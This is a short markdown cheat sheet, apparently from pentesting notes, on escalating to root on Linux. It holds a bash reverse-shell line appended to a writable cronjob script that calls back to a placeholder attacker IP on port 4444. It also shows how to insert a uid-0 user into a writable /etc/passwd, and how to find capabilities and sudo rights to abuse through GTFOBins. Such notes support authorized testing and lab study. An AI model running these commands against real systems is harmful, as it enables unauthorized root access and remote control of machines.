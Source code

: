 ## Linux PrivEsc

If we reckon we have a privileged users password, remember to try this even if login via SSH has failed, it may just be that the privileged user we have owned doesn't have SSH, but they can still authenticate locally:
```bash
su - root
```
### Abusing cronjobs
Search for cronjobs running as privileged users and see if we can't edit the file it runs:
```bash
grep "CRON" /var/log/syslog
```
If this comes up empty don't forget to check other cronjob enumeration commands as listed in `enumeration/linux.md#cronjobs`.

If we can edit then go ahead and pop a reverse shell in there:
```bash
echo "bash -c 'bash -i >& /dev/tcp/<OurIP>/4444 0>&1'" >> cronjobbin_all_day_long.sh
```

### /etc/passwd
If for some ridiculous reason `/etc/passwd` is writable by a user we can execute commands as, we have an easy path to privesc by inserting a new root user in there:
```bash
openssl passwd lolzage
```
```bash
echo "gigachad:<our hashed password>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
```bash
su gigachad
```

### GTFOBins
If a binary has been delegated additional capabilities (particularly keeping an eye out for the `cap_setuid+ep` setting) we can find out via:
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
Equally if our current user can run an application as `root` we can discover them via:
```bash
sudo -l
```
In both cases we can search for how we might go about abusing the relevant binary on https://gtfobins.github.io/. Nb. it is possible that `AppArmor` may cuck us for a privesc path we try. Do not be disheartened! `AppArmor` works via a series of profiles, just because one is present for one application, does not mean there is one present for all of them. Abuse every binary!